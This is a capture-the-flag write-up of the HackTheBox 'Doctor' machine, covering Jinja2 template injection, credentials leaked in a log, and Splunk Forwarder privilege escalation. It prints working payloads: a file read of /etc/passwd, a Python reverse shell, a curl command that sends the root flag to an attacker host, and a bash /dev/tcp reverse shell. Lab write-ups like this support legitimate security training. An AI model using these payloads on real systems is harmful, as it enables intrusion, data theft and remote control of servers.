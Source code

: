 ```yaml
---
title: Write-up Doctor Machine
author: ScarNGone & pcw3r
date: 2021-02-04 20:00:00 +0100
categories: [HackTheBox, Boot2Root]
tags: [LINUX, EASY, SSTI, Splunk, Jinja2, linpeas]
---
```


**<center>Ref°: HTB-18-Boot2Root</center>**

![Desktop View]({{"/assets/img/doctor/HTB-Badge-Doctor.png" | relative_url }})

— Doctor is a vulnerable machine through :

* Foothold : Server Side Template Injection
* Lateral movement : Credential in log file
* Prives : Abusing Splunk Forwarder

![Desktop View]({{ "/assets/img/doctor/HTB-Information-Doctor.png" | relative_url }})

## **<span style='color:#c0392b'>[1] Discovery - Figure out environment</span>**
### Network Service Scanning
***
We have the 3 following open ports : 22, 80, 8089

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-nmap.png" | relative_url }})

### Website on port 80
***

```
http://10.10.10.209/
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-website.png" | relative_url }})


### Docteur Secure Messaging on port 80
***
Other page can be resolve with doctors.htb:

```
http://doctors.htb/login?next=%2F
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-secure-messaging.png" | relative_url }})

### Splunk Forwarder on port 8089
***

```
https://doctors.htb:8089/
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-splunk-forwarder.png" | relative_url }})


## **<span style='color:#c0392b'>[2] Weaponization - Find exploit way</span>**
### Archive page under beta testing
***
Reference: <https://portswigger.net/web-security/server-side-template-injection>

Source page reveal page under beta testing:

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-source-page.png" | relative_url }})

This page is empty:

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-archive.png" | relative_url }})

But we can register new account and post anywant:

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-account.png" | relative_url }})

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-post.png" | relative_url }})

And this archive page are updated with our post:

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-archive-test.png" | relative_url }})

We can determine the using of template language programmation in this website. 

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-reveal-jinja2.png" | relative_url }})

The payload returns 7777777 and we can identify template used here: `Jinja2`

## **<span style='color:#c0392b'>[3] Foothold - Get into the target </span>**
### Server Side Template Injection with Jinja2
***
Reference: <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection>

#### Get remote file

```
.. get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() ..
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-passwd.png" | relative_url }})

#### Gain RCE

```
..['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417) ..
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-rce-1.png" | relative_url }})


## **<span style='color:#c0392b'>[4] Lateral Movement - Move through environment</span>**
### Linpeas reveal password in /var/log/backup
***

![Desktop View]({ "/assets/img/doctor/HTB-Images-Doctor-linpeas.png" | relative_url })

### su Shaun
***

```
Username: Shaun
Password: Guitar123
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-su-shaun.png" | relative_url }})

## **<span style='color:#c0392b'>[5] Privilege Escalation - Gain higher-level permissions</span>**
### Abusing Splunk Forwarders
***
References: 
* <https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/>
* <https://github.com/cnotin/SplunkWhisperer2>

Shaun account is used like UF agent --> we can run arbitrary command on the server as root.

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-agent-password.png" | relative_url }})

#### Get root flag

```terminal
$ python3 PySplunkWhisperer2_remote.py --host doctors.htb --port XXXX --username XXXX --password XXXX --payload "curl -F 'data=@/root/root.txt' http://IP:PORT" --lhost IP
```
![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-flag.png" | relative_url }})


#### Gain RCE

```terminal
$ python3 PySplunkWhisperer2_remote.py --host doctors.htb --port XXXX --username XXXX --password XXXX --payload "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'" --lhost IP
```

![Desktop View]({{ "/assets/img/doctor/HTB-Images-Doctor-rce-2.png" | relative_url }})

***

# **<center>Trophy</center>**

> **I don't know how to put this but I'm kind of a big deal. People know me. I'm very important. I have many leather-bound books and my apartment smells of rich mahogany**
>
> Ron Burgundy




